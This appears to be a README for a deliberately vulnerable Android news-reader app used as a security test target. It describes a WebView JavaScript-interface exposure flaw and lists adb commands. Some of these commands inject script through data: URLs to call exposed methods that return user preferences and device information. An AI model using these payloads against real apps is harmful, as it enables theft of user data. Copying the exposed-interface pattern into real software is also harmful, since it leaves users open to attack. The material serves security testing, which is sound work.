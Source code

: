 # oxo-android-ben41 News Reader App

## Attack Vector 3: JavaScript Interface Exposure with Malicious Content

**Vulnerability**: WebView has JavaScript enabled and exposes Android Java objects to JavaScript, allowing malicious web content to access sensitive app functionality and data.

**Key Issues**:
- `webView.addJavascriptInterface()` used without proper security
- JavaScript interface exposes sensitive methods to web content
- Malicious HTML/JavaScript can call Android methods directly
- Potential for data exfiltration and unauthorized actions

**Difficulty**: High

## Testing

```bash
# Test with malicious HTML file that exploits JavaScript interface
adb shell am start -n co.ostorlab.myapplication/.ArticleViewerActivity -e url "file:///android_asset/malicious.html"

# Test with malicious URL that contains JavaScript exploitation
adb shell am start -n co.ostorlab.myapplication/.ArticleViewerActivity -e url "data:text/html,<script>alert(NewsReader.getUserPreferences())</script>"

# Test device info extraction
adb shell am start -n co.ostorlab.myapplication/.ArticleViewerActivity -e url "data:text/html,<script>alert(NewsReader.getDeviceInfo())</script>"
```
